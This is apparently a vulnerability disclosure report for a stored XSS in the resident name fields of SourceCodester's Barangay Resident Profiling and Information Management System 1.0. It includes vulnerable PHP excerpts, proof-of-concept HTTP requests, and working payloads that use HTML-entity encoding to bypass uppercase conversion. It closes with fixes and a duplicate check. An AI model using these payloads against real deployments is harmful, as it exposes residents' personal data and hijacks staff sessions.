

# SourceCodester Barangay Resident Profiling and Information Management System 1.0 /manage_members.php last_name= Stored XSS

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18747/barangay-resident-profiling-and-information-management-system-brpms-phpmysql.html
- https://www.sourcecodester.com/sites/default/files/download/oretnom23/brpms_sanfabian.zip

## Overview

- Barangay Resident Profiling and Information Management System (BRPMS, "Barangay San Fabian" build), version 1.0, stores resident name fields verbatim and renders the resident master list without HTML-encoding, allowing stored Cross-Site Scripting (XSS) through `last_name` (and equally `first_name`/`suffix`). The payload executes in the browser of every staff member who opens the All Residents page (`/residents.php`) and persists until the record is removed.

## Details

- Vulnerable file: `/manage_members.php` (injection) → `/residents.php` (raw render)
- Parameter: `last_name` (POST; `first_name`, `middle_name`, `suffix` flow through the same code path)
- Affected version: 1.0 (current public download, 2026-11)
- Injection — the add-member handler inserts every form field verbatim; the UI dropdowns/selects (gender, civil status, relation…) are client-side only:

```php
// manage_members.php:67-80 — loop over $resident_fields
foreach ($resident_fields as $field) {
    ...
    $value = $_POST[$field] ?? null;
    $params[] = $value;
    $types   .= 's';
}
// manage_members.php:82-88
$sql = "INSERT INTO residents ($columns) VALUES ($placeholders)";
$stmt = $conn->prepare($sql);
$stmt->bind_param($types, ...$params);
```

- Render — the master list echoes the name raw (`strtoupper()` changes case only; HTML tag/attribute names are case-insensitive, so markup still lands):

```php
// residents.php:70
<td><strong><?php echo strtoupper($row['last_name'] . ', ' . $row['first_name'] . ' ' . $row['suffix']); ?></strong></td>
// residents.php:72 — same omission
<td><?php echo $row['gender']; ?></td>
```

- `last_name` is `varchar(100)` — payloads up to 100 characters store cleanly under MySQL strict mode. (`gender` at :72 shares the raw echo but its `varchar(10)` column rejects any usable payload, so the name fields are the practical vector.)

## Description

- A staff member submits a new resident whose surname is markup. The INSERT is prepared (SQL-safe) but performs no input validation or length/content policy, so the markup is stored verbatim. Every visit to `/residents.php` then emits `<STRONG><SVG ONLOAD=...>, FIRSTNAME </STRONG>` into the table — the tag breaks out of the cell and the event handler becomes live attacker script in the authenticated page context. From there an attacker can exfiltrate the resident master list (names, birthdays, civil status, health flags — sensitive personal data), mutate resident/household records, or ride the victim's session.

- Note on the case conversion: `strtoupper()` uppercases the whole value, which neutralizes *plain-text* JavaScript (JS identifiers are case-sensitive) but does not stop the injection: HTML tag/attribute names are case-insensitive, and HTML entities inside the attribute value (`&#100;` = `d`, …) are decoded by the browser before the JS engine sees them, so fully-functional script payloads survive. Both bypasses are demonstrated in the screenshot run below.

## PoC

- Request — store the payload (admin session):

```
POST /manage_members.php?household_id=1 HTTP/1.1
Host: 127.0.0.1:8140
Cookie: PHPSESSID=<admin session>
Content-Type: application/x-www-form-urlencoded

add_member=1&first_name=Poc&middle_name=M&last_name=%3Csvg%20onload%3DBRPMS-NVXSS-4%3E&suffix=&relation_to_head=Member&birthday=2000-01-01&gender=Male&civil_status=Single&occupation=Tester&monthly_income=100.00&educational_attainment=College&type_of_dwelling=House&water_source=Nawasa&toilet_type=Flush&fp_method=None&youth_status=Adult
```

- Render request:

```
GET /residents.php HTTP/1.1
Host: 127.0.0.1:8140
Cookie: PHPSESSID=<admin session>
```

- Response (raw, uppercased markup in the name cell):

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<td><strong><SVG ONLOAD=BRPMS-NVXSS-4>, POC </strong></td>
```

## Payload

```
<svg onload=BRPMS-NVXSS-4>
```

Executing variants used for the screenshot run (both ≤ varchar(100)):

```
<style>body{background:red}</style>
<svg onload="&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;.&#116;&#105;&#116;&#108;&#101;='X4'">
```

## Screenshot: stored markup executing in the resident master list

Two demonstration residents were added to household HH-001: one whose surname is a `<style>` element (page background painted red — stored markup parsed as an active element; CSS is case-insensitive so `strtoupper` does not stop it), and one carrying the entity-encoded `svg onload` handler (`&#…;` entities bypass `strtoupper`; the browser decodes them and executes `document.title='X4'` — the tab title changed to `X4`). The resident table rows visibly break apart where the injected elements take over the markup.



Full evidence log: `poc/F04-resident-fields-stored-xss.txt` (3 verification rounds incl. the varchar(10) gender analysis + screenshot-run addendum).

## Suggested repair

1. Escape at render: `htmlspecialchars(..., ENT_QUOTES, 'UTF-8')` around the name echo at `residents.php:70` and the gender echo at :72 (reports.php:388 already escapes — apply the same policy here).
2. Validate at input: reject `<>` (or HTML-encode on insert) in `first_name/middle_name/last_name/suffix` in `manage_members.php`, and enforce the DB column lengths server-side so oversized payloads fail loudly.
3. Treat every UI dropdown as advisory only — server-side whitelists for gender, civil status and relation-to-head, since the loop at :67-80 accepts arbitrary strings.
4. Add a `Content-Security-Policy` header as defense in depth.

## Dedup note

- NVD: the only entry for this product is CVE-2026-11515 (hard-coded password in `passsword_reset.php`) — different file, different vulnerability class (checked 2026-11-09).
- VulDB: no entry covers resident-name XSS on `/residents.php`. The code-projects.org copy of the codebase has CVE-2026-78143, but that is **SQL injection via the `search` parameter** of `residents.php` — different parameter, different vulnerability class from this stored name-field XSS (this project's own search path is escaped). No overlap per file/parameter/type.
